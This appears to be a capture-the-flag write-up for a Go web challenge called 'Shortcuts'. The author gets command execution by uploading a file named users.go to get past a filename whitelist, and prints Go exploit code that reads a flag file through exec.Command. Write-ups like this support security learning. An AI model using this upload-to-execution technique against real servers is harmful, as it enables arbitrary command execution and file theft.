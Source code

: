 # Shortcuts (465pts) #

![TASK](https://imgur.com/eBGWBx5.png)

We are given a simple web app written in Golang where we have shortcuts for some commands executed on the server, after digging around we can notice that the server is returning the output of the command **go run foo.go** ( by having a look at processes)
so if we upload our go script that executes any commands for us we can achieve a command execution :D But that's not the case if we try to upload any file it won't be executed , i think that there's a whitelist of the accepted filenames.

If we try to execute the users shortcuts we will get the error below , so if we upload a file named users.go and then click users, our script will be executed and we will bypass this whitelist 

![IMAGE](https://imgur.com/bjkx19l.png)

After uploading it :

![SUCCESS](https://imgur.com/Dzm006Q.png)

The content of **users.go** file :

```go

package main

import (
    "fmt"
    "os/exec"
)

func execute() {

    out, err := exec.Command("cat","/home/tom/flag.txt").Output()

    if err != nil {
        fmt.Printf("%s", err)
    }

    fmt.Println("Command Successfully Executed")
    output := string(out[:])
    fmt.Println(output)
}

func main() {
        execute()

}

```

If you have any questions you can DM on twitter @belkahlaahmed1 or visit my website for more interesting content and blogs https://ahmed-belkahla.me
